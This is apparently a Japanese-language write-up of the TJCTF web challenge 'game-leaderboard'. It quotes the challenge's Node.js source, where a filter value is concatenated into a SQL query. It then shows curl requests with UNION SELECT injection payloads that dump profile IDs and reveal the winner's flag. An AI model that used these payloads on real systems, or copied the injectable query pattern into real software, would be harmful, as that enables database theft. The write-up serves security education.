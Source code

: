 # game-leaderboard:web:XXXXpts
I (superandypancake) signed up for this tournament to win a flag! Unfortunately, I'm not so good. But I'm sure there still is a way to get the flag... right?!?  
[game-leaderboard.tjc.tf](https://game-leaderboard.tjc.tf/)  

Downloads  
[index.js](index.js)  

# Solution
ソースとサイトが渡される。  
アクセスすると、謎のリーダーボードがあり、フィルターで表示を変更できるようだ。  
[site.png](site/site.png)  
ソースは以下のようであった。  
```js
~~~
const FLAG = fs.readFileSync(`${__dirname}/flag.txt`).toString().trim()

const getLeaderboard = (minScore) => {
    const where = (typeof minScore !== 'undefined' && minScore !== '') ? ` WHERE score > ${minScore}` : ''
    const query = `SELECT profile_id, name, score FROM leaderboard${where} ORDER BY score DESC`
    const stmt = db.prepare(query)

    const leaderboard = []
    for (const row of stmt.iterate()) {
        if (leaderboard.length === 0) {
            leaderboard.push({ rank: 1, ...row })
            continue
        }
        const last = leaderboard[leaderboard.length - 1]
        const rank = (row.score == last.score) ? last.rank : last.rank + 1
        leaderboard.push({ rank, ...row })
    }

    return leaderboard
}
~~~
app.post('/', (req, res) => {
    const leaderboard = getLeaderboard(req.body.filter)
    return res.render('leaderboard', { leaderboard })
})

app.get('/user/:userID', (req, res) => {
    const leaderboard = getLeaderboard()
    const total = leaderboard.length

    const profile = leaderboard.find(x => x.profile_id == req.params.userID)
    if (typeof profile === 'undefined') {
        return res.render('user_info', { notFound: true })
    }

    const flag = (profile.rank === 1) ? FLAG : 'This is reserved for winners only!'
    return res.render('user_info', { total, flag, ...profile })
})
~~~
```
rankが1なユーザのページにflagがあるようだ。  
ただし、`https://game-leaderboard.tjc.tf/user/1`などは404であるので、ページ上の数値は`userID`ではないようだ。  
`getLeaderboard`に自明なSQLiがあるので以下のように、`userID`とされる`profile_id`を取得する。  
フロントで数値であるかの入力チェックをしているがcurlなので無視できる。  
```bash
$ curl -X POST https://game-leaderboard.tjc.tf/ -d "filter='"
~~~
<pre>Internal Server Error</pre>
~~~
$ curl -X POST https://game-leaderboard.tjc.tf/ -d "filter=0 UNION SELECT 1, 1, 1 ; -- satoki"
~~~
                        <tr>
                            <td>1</td>
                            <td>1</td>
                            <td class="text-center">1</td>
                        </tr>
~~~
$ curl -X POST https://game-leaderboard.tjc.tf/ -d "filter=0 UNION SELECT 1, 1, profile_id FROM leaderboard ; -- satoki"
~~~
                        <tr>
                            <td>1</td>
                            <td>1</td>
                            <td class="text-center">1e3ee1488d2d09fa</td>
                        </tr>

                        <tr>
                            <td>2</td>
                            <td>1</td>
                            <td class="text-center">2b7485706b1f7090</td>
                        </tr>

                        <tr>
                            <td>3</td>
                            <td>1</td>
                            <td class="text-center">6896e98c2e4584db</td>
                        </tr>

                        <tr>
                            <td>4</td>
                            <td>1</td>
                            <td class="text-center">a248cd0874717e51</td>
                        </tr>

                        <tr>
                            <td>5</td>
                            <td>1</td>
                            <td class="text-center">c35b9ef595b655a0</td>
                        </tr>
~~~
```
無事にuserIDを取得できた。  
あとはユーザのページにアクセスしてやればよい。  
flag  
[flag.png](site/flag.png)  
`https://game-leaderboard.tjc.tf/user/1e3ee1488d2d09fa`にflagが書かれていた。  

## tjctf{h3llo_w1nn3r_0r_4re_y0u?}